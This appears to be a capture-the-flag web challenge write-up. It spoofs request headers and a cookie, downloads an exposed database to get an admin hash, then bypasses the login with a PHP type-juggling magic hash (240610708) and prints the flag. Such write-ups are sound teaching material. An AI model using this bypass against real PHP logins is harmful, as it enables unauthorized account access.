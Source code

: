# Web

1. Address: `web.petromaz.ir`
2. Set Header: `Referer: https://google.com`
3. Set `User-Agent` To `WorldWideWeb`
4. Set Cookie `test_completed=true` in FireFox
5. Go To: `http://petromaz.ir/index.php`
6. Go To: `http://petromaz.ir/media`
7. Download DB `http://petromaz.ir/media/database.db` into [🗂 database.db](./07-database.db)
8. Open it and Get Username and Password
```
Username: admin
Password: 0e745304954233478109486485467426
```
9. Type Juggling: `0e... == 0e...`, Sample: [🗂 TypeJuggling.php](./09-TupeJug.php)
10. Magic Hashes List for `Md5`: [🗂 Usefull TypeJuggling Hashes](https://github.com/spaze/hashes/blob/master/md5.md)
11. Login `admin`, `240610708`
```
md5(X) = Starts With Number (0-9...)
md5(240610708) = 0e462097431906509019562988736854
```
12. Flag: MAZAPA_fc0b11dd306fb36d5fc8b4332c8fd0fc
